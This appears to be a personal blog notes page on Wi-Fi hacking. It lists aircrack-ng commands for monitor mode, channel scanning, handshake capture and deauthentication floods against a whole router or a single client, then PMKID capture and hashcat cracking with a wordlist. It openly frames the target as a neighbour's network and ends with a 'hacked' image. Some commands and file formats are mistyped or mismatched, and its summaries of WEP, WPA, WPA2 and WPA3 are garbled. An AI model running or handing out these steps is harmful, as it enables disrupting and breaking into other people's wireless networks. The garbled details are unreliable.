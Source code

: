 ```yaml
---
layout : post
title : Sniffing packets and testing those
date : 21-06-21
---
```


Wireless Network Adapter aka wifi card that is used to connect to wifi's 

WEP : oldest
WPA : Any certificate can lead to leak 
WPA2 : kick a user, then he reconnects, capture the certificate, 4-way handshake ,capture the certificate in betweeen   
WPA3 : all password attempts need to be on internet 



## Monitor mode
In this mode it becomes a radio sniffer, listens to all wireless signals in the air on a specific channel. Hear's everything happening in the room 

Wifi card can listen to 2.4Ghz, 5Ghz, 6Ghz bands 

It can sniff to any frequency band that its capable of in the above range

So what you do is you deauth the neighbor's router by sending 'deauthentication packets' ? ( how can I send deauth packets ? )
deauth is broken, part of 802.11 management frames, are not protected in WPA/WPA2 - Personal , can be spoofed / faked by anyone in the range 

Particular client deauth attack 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Probes
AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -45   1e-1     0       800     -
```

Station MAC is the client MAC 

Get all clients :
`airodump-ng --bssid <router MAC> -c <channel> wlo1mon`

Deauth bombing: 
`aireplay-ng --deauth 100 -a <router MAC> wlo1mon`

Deauth particular user : 
`aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlo1mon`


#  scan the wifi : 
sudo iwlist scan 

# top networks
sudo airdump-ng start wlo1mon , or , 
sudo airodump-ng wlo1mon --write scan --output-format csv

# set the channel to capture
sudo iw dev wlo1mon set channel 1

# get all wifi present and bssid
sudo iw dev wlo1 scan 

## Get into monitor mode 
sudo airmon-ng start wlo1

## manager mode
sudo airmon-ng stop wlo1mon


## airodump : 
sudo airodump-ng --bssid <bssid> -c <channel-name> -w capture wlo1mon

eg:
sudo airodump-ng --bssid 6c:4f:89:9a:3f:af -c 44 -w capture wlo1mon

## aireplay 

sudo aireplay-ng --deauth 20 -a 6c:4f:89:9a:3f:af wlo1mon --ignore-negative-one


# HASHCAT for WPA-2

## PMKID ( Pairwise Master Key Identifier (PMKID) )

# hcxdump-tool
sudo hcxdumptool -i wlo1mon -w pmkid.pcapng --rds=1

# Tool to unpack
hcxpcapngtool -o pmkid.hccapx pmkid.pcapng

# Decode 
hashcat -m 22000 pmkid.hc22000 rockyou.txt --force


![hacked](https://github.com/user-attachments/assets/8ab726b5-c6b8-43e9-b184-a7207d1f3163)






